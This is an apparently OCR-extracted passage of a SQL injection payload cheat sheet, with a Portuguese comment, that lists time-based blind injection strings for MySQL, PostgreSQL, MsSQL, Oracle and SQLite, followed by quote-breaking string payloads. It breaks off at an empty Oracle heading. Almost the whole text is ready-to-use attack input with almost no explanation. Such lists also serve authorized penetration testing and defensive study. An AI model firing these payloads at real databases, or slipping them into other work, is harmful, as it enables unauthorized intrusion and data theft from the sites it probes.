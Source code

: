     1 + 1 #Se responder da mesma forma como se informasse 2 no payload, possivelmente vulnerável
    
MySQL (string concat and logical ops)

    1  sleep(10)
    1 and sleep(10)
    1 && sleep(10)

PostgreSQL (only support string concat)

    1 pg_sleep(10)

MsSQL

    1 WAITFOR DELAY '0:0:10'

Oracle
    
    1 AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1 AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite

    1 AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1 AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
    

### String

Payloads:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))
    
MySQL (string concat and logical ops)

    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    1'/**/and/**/sleep(5)
    
PostgreSQL (only support string concat)

    1' || pg_sleep(10)
    
MSQL

    1' WAITFOR DELAY '0:0:10'
    
Oracle
